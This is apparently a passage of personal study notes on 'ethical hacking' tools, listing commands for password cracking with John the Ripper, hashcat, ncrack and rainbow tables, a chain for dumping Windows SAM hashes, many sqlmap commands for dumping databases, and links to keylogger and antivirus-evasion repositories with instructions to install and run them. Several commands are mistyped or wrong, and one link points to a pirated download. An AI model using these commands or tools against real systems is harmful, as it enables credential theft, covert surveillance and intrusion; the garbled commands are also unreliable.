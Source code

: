 84. Search & Work : Cyptographic tools, Disk Encryption tools , Crypanalysis Tools
85. Password Hacking ::> 1) Hydra : use it to gess the pass and usenames . 2) John the Ripper : Bruteforce the usernames and passwords . 3)Medusa : Another Password cracking tool the htchydra 4) Keylogger : A keylogger that sends emails with log attachment > https://github.com/Sirius-Black4/keylogger.git > use it and test.
86. Best kali Tools to crack Password Authentication : 1) John the Ripper > john 192.168.56.101.pwdump > john --worldlist=/usr.share/wordlist/rockyou.txt 192.168.56.101.pwdump > john --rules --worldlist=/usr.share/wordlist/rockyou.txt 192.168.56.101.pwdump > unshadow pass-file.txt shadow-file.txt > unshadow pass-file.txt shadow-file.txt>unshadowed.txt > john --worldlist=/usr.share/wordlist/rockyou.txt unshadowed.txt .
87. Hash Password Cracking : echo -n "Hello" | md5sum | tr -d "-" >> target_hash.txt > cat target_hash.txt > hashcat -m 0 -a 0 -o crack.txt target_hash.txt /usr/share/wordlists/rockyou.txt
88. Bypass Windows Password : fdisk -l && ntfsfix /dev/sda2 && cd /media/<Media No.>/Windows/System32/config && bkhive SYSTEM /root/Desktop/system && samdump2 SAM /root/Desktop/system > /root/Desktop/hashes.txt && pwdump SYSTEM SAM > /root/Desktop/hashes.txt && wine "c:\pwdump8.exe" -f SYSTEM SAM && cd /root/Desktop && cat hashes.txt && john --format=nt2 --users=UserName hashes.txt
89. || Ophcrac || is a free Windows password cracker based on rainbow tables. It is a very efficient implementation of rainbow tables done by the inventors of the method. It comes with a Graphical User Interface and runs on multiple platforms. > Rainbow Table Ganerate commd > rtgen <hash_algorithm> <charset> <plaintext_len_min> <plaintext_len_max> <table_index> <chain_len> <chain_num> <part_index> >>> rtgen lm loweralpha 1 7 0 10000 20000 0 > rtgen ntlm mixalpha-numeric 1 7 0 10000 20000 0 > rtgen md5 mixalpha-numeric 1 7 0 10000 20000 0 > rtsort .
90. Wordlist ganarator tool : Crunch 3 6 1234567890 -o list.txt > crunch 10 10 @@@@123 list1.txt > crunch 4 8 1234abcd list2.txt
91. Ncrack to crack Username and Password > ncrack && ncrack -p <port> && ncrack <target1> <target2> <target3> && ncrack -p <port> --user <username> --pass <password_list> && ncrack -p 3389 && ncrack -T<speed> && ncrack -oN <output_file> && ncrack -p 21 && ncrack -v
92. Wbapplication Hacking Using : SQL Injection and BurpSuit (imp to learn)
93. Shodan Search Engine is most powerfull search engine in the world ised by cyber security (Ethical Hackers)
94. External Vernability Scanning Tool : Shodan, Nmap, Qualys, Nessus.
95. NetSparker Downlode : https://www.freesoftwarefiles.com/utilities/netsparker-professional-4-8-free-download/ from this link downlode tool and Use it librarly.
96. Acunetix Downlode and use it libraly explore all features > Downlode burpsuit and Explain all functions.
97. OWASP TOP 10 : it best project to test your skills ubderstand all things and apply it and learn from it.
98. best website to decode password > https://www.base64decode.org/ > use it to decode hash > Burpsuit is also inbuilt feature to to decode these feature.
99. Sqlmap used to get all info by following commands : sqlmap -u "http://example.com/vulnerable.php?id=1" >> sqlmap -u "http://example.com/vulnerable.php?id=1" --cookie="PHPSESSID=your_session_id" >> sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs >> sqlmap -u "http://example.com/vulnerable.php?id=1" -D database_name --tables >> sqlmap -u "http://example.com/vulnerable.php?id=1" -D database_name -T table_name --columns >> sqlmap -u "http://example.com/vulnerable.php?id=1" -D database_name -T table_name --dump >> sqlmap -u "http://example.com/vulnerable.php" --data="param1=value1&param2=value2" >> sqlmap -u "http://example.com/vulnerable.php?id=1" --proxy="http://127.0.0.1:8080" >> sqlmap -u "http://example.com/vulnerable.php?id=1" --user-agent="Mozilla/5.0" >> sqlmap -u "http://example.com/vulnerable.php?id=1" --technique="BEUSTQ" >> sqlmap -u "http://example.com/vulnerable.php?id=1&param2=value2" >> sqlmap -m urls.txt --batch >> sqlmap -u "http://example.com/vulnerable.php?id=1" --dump --output-dir=/path/to/output >> sqlmap -u "http://example.com/vulnerable.php?id=1" --auth-type=basic --auth-cred="username:password" >> sqlmap -u "http://example.com/vulnerable.php?id=1" --dump-all >> sqlmap -u "http://example.com/vulnerable.php?id=1" --threads=5 >> sqlmap -u "http://example.com/vulnerable.php?id=1" --banner >> sqlmap -u "http://example.com/vulnerable.php?id=1" --privileges >> sqlmap -u "http://example.com/vulnerable.php?id=1" --technique="B" --dump >> sqlmap -u "http://example.com/vulnerable.php?id=1" --data="param1=value1' OR '1'='1"
100. Beast Tool : The BEAST tool exploits vulnerabilities in SSL/TLS protocols, allowing attackers to decrypt HTTPS traffic. It's primarily used for testing the security of SSL/TLS implementations and demonstrating weaknesses in older encryption methods. While largely historical, it highlights the need for secure configurations in modern systems.
101. Viel framework : Veil is a tool designed to generate metasploit payloads that bypass common anti-virus solutions >> https://github.com/Veil-Framework/Veil.git > install and run properly.
102. Generate Gmail Emailing Keyloggers to Windows : https://github.com/4w4k3/BeeLogger.git Clone an install and rum and get info .